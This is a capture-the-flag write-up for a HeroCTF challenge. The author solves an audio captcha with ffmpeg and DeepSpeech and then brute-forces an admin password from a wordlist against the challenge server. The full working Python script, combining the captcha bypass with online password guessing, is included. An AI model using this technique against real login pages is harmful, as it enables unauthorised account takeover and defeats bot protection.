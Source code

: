 ## Rerecaptcha_v2

```
This time I've stepped up, they'll never be able to hack me !
Author: yarienkiva
Format: Hero{}
```

<u>Programming language :</u> Python 🐍

This time the captcha authentication uses an audio. Then, as the same as the first challenge we have to get a local version of it. The only difference is that in order to be able to know the format of the captcha we need to use the 'file' command to have the information.

![Rerecaptcha_v2_Test](images/Rerecaptcha_v2_Format.png)

After getting this information I can use ffmep to do the conversion. Then, we can reuse the first part of the last challenge.

```python
url = "http://chall3.heroctf.fr:8082/login"
	cookie = dict(session="XXXXXXX")

r = requests.get(url, cookies=cookie)

img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

with open("CaptchaAudio.adts", "wb") as f:
	f.write(base64.b64decode(unquote(img_b64.group(1))))
	
os.system("ffmpeg -i CaptchaAudio.adts CaptchaAudio.wav -y 2>/dev/null")
```



For this challenge the second step will be different, we obviously can't use OCR tools. So, I found a python speech recognition tool made by mozilla on github : https://github.com/mozilla/DeepSpeech/. Using it locally gives us the information that it was outputting numbers with approximative words. 

![Rerecaptcha_v2_Test](images/Rerecaptcha_v2_Test.png)

Thus we faced 2 problems :

-  Find a way to integrate the tool our script.
- Changing text to number.



For the first I have past all the script into a function to be able to import it as a package into my script and call the function at each loop.

```python
import speech

s = speech.mySuperDeepSpeech("deepspeech-0.9.3-models.pbmm", "CaptchaAudio.wav")
```



For the second problem I could make a comparison dictionary, but in order to save some times I decided to simply use replace function.

```python
s = s.replace("zero", "0")
s = s.replace("one", "1")
s = s.replace("two", "2")
s = s.replace("three", "3")
s = s.replace("four", "4")
s = s.replace("five", "5")
s = s.replace("six", "6")
s = s.replace("seven", "7")
s = s.replace("eight", "8")
s = s.replace("nine", "9")
        
s = s.replace(" ", "")
```

The above replacement convert clean output, but we should handle all the options, thus after some test I drawn up more association and I found out that zero was the most missed numbers. So, I decided to change all the other words, in zero to increase winning situation.

```python
s = s.replace("to", "2")
s = s.replace("full", "4")
s = s.replace("for", "4")
s = s.replace("fur", "4")
s = s.replace("sicks", "6")
s = s.replace("sick", "6")
s = s.replace("si", "6")
s = s.replace("eghte", "8")
s = s.replace("pait", "8")
s = s.replace("pate", "8")
s = s.replace("ate", "8")
s = s.replace("at", "8")
s = s.replace("aght", "8")
s = s.replace("nine", "9")

s = re.sub('[a-z]+', '0', s)
```



After converting audio to text we just have to send it back to the server.

```python
payload = {'username': 'admin', 'password': XXXXXXX, 'pincode': resultat}
r2 = requests.post(url, payload, cookies=cookie)

if re.search("Invalid login or password", str(r2.content)):
	print('Mauvais PASSWORD - '+str(nb_passwd))
elif re.search("Invalid pincode", str(r2.content)):
	pass
else:
	print('PASSWORD IS : '+z)
```



Like in the first challenge I put all the code into 3 things :

1. A for loop to use all the password into the wordlist.
2. A while loop to keep using the same password until "Invalid pincode" appear
3. A try ... catch ... to instant reset the code each time Tesseract failed the conversion



The final code.

```python
import base64
import re
from urllib.parse import unquote
import requests
from pynput.mouse import Controller, Button
import os
import speech

with open('wordlist.txt', 'r') as file:
    passwords = file.read().split()

nb_passwd = 0
finish = False

f = open("flag.txt", "w")

for z in passwords:
    nb_passwd+=1
    while 1:
        try:
        
####################################### Captcha Recuperation #######################################
        
            url = "http://chall3.heroctf.fr:8082/login"
            cookie = dict(session="4f6915a7-d8fa-44a6-8769-985ee12a7d80.Cn7ZzahkGH6ZOIs2qlOJyTkxbnY")

            r = requests.get(url, cookies=cookie)

            img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

            with open("CaptchaAudio.adts", "wb") as f:
                f.write(base64.b64decode(unquote(img_b64.group(1))))

            os.system("ffmpeg -i CaptchaAudio.adts CaptchaAudio.wav -y 2>/dev/null")
            
###################################### Converting the Audio #########################################
            
            s = speech.mySuperDeepSpeech("deepspeech-0.9.3-models.pbmm", "CaptchaAudio.wav")

            print("\n")
            print(s)
            
            s = s.replace("zero", "0")
            s = s.replace("one", "1")
            s = s.replace("to", "2")
            s = s.replace("two", "2")
            s = s.replace("three", "3")
            s = s.replace("full", "4")
            s = s.replace("four", "4")
            s = s.replace("for", "4")
            s = s.replace("fur", "4")
            s = s.replace("five", "5")
            s = s.replace("sicks", "6")
            s = s.replace("sick", "6")
            s = s.replace("six", "6")
            s = s.replace("si", "6")
            s = s.replace("seven", "7")
            s = s.replace("eghte", "8")
            s = s.replace("eight", "8")
            s = s.replace("pait", "8")
            s = s.replace("pate", "8")
            s = s.replace("ate", "8")
            s = s.replace("at", "8")
            s = s.replace("aght", "8")
            s = s.replace("nine", "9")
            
            s = s.replace(" ", "")
            s = re.sub('[a-z]+', '0', s)
            
            print(s)
            print("\n")
            
########################################## Sending payload ##########################################
            
            payload = {'username': 'admin', 'password': z, 'pincode': s}
            r2 = requests.post(url, payload, cookies=cookie)

            if re.search("Invalid login or password", str(r2.content)):
                print('Mauvais PASSWORD - '+str(nb_passwd))
                break
            elif re.search("Invalid pincode", str(r2.content)):
                pass
            else:
                print('PASSWORD IS : '+z)
                finish = True
        except:
            pass
    if finish == True:
        break
```



It took about 20 minutes to test 208 passwords for an average time of 5.76 seconds per password.

![Rerecaptcha_v2_Result](images/Rerecaptcha_v2_Result.png)

<img src="images/Rerecaptcha_v2_Flag.png" alt="Rerecaptcha_v2_Flag" style="zoom:75%;" />